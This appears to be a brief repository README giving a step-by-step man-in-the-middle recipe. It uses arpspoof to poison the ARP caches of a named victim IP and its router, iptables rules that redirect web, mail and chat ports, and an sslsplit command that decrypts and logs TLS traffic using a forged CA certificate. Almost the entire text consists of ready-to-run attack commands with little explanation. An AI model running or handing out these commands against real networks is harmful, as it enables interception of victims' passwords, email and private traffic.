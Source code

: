 ARP Spoof
=========
1. Tell the victim, I am the router  
`sudo arpspoof -t 35.12.214.227 35.12.214.1`  
2. Tell the router, I am the client.  
`sudo arpspoof -t 35.12.214.1 35.12.214.227`  

SSL Split Attack
================
1. Configure the iptables (make sure the victim can receive the packets)  
```
sudo sysctl -w net.ipv4.ip_forward=1  
sudo iptables -t nat -F  
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080  
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443  
sudo iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080  
```
2. Start the ssl split (You should pre-create directory in /tmp folder)  
`sudo ./sslsplit -D -l connections.log -j /tmp/sslsplit/ -S /tmp/sslsplit/logdir/ -k cakey.pem -c cacert.pem ssl 0.0.0.0 8443 tcp 0.0.0.0 8080`  

Reference:
==========
https://www.roe.ch/SSLsplit  
https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/  